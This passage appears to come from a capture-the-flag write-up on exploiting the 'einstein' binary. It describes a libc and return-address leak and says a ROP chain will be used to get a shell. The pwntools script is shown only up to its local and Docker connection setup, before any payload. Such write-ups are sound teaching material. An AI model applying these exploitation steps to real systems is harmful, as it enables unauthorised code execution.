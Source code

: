 ![alt text](../assets/img/image-30.png)

Now we have libc address and saved return address of `handle` function. Just having to write a small rop chain to get the shell.
(How luckily is that rsi=rdx=0 when the process reaches the rop chain!)

```python
#!/usr/bin/env python
from subprocess import check_output
from pwn import *
from time import sleep

context.binary = e = ELF("./einstein_patched")
libc = e.libc
gs = """
brva 0x1326 
brva 0x13A8
"""


def get_pid(name):
    return int(check_output(["pidof", "-s", name]))


def start():
    if args.LOCAL:
        p = e.process()
        if args.GDB:
            gdb.attach(p, gdbscript=gs)
            pause()
    if args.DOCKER:
        p = remote("localhost", 5000)
        sleep(2)
        if args.GDB:
            pid = get_pid("/app/run")
            gdb.attach(pid, exe=e.path,
                       gdbscript=gs+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe")
```